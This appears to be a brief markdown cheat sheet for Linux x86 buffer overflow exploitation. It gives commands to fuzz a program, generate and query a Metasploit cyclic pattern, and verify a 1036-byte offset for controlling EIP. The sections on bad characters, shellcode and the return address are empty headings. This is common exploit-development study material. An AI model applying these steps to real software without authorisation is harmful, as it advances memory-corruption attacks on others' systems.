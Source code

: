 # buffer overflow Linux x86

## Take control EIP

### Determine the offset

- Get rough estimate offset
```shell
$(python -c 'print("A"*1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

- Calculate offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset
```shell
run $(python -c "print 'A' * 1036 + 'B' * 4")
```

## Determine length shellcode

## Identification bad characters

## Generating shellcode

## Identification return address

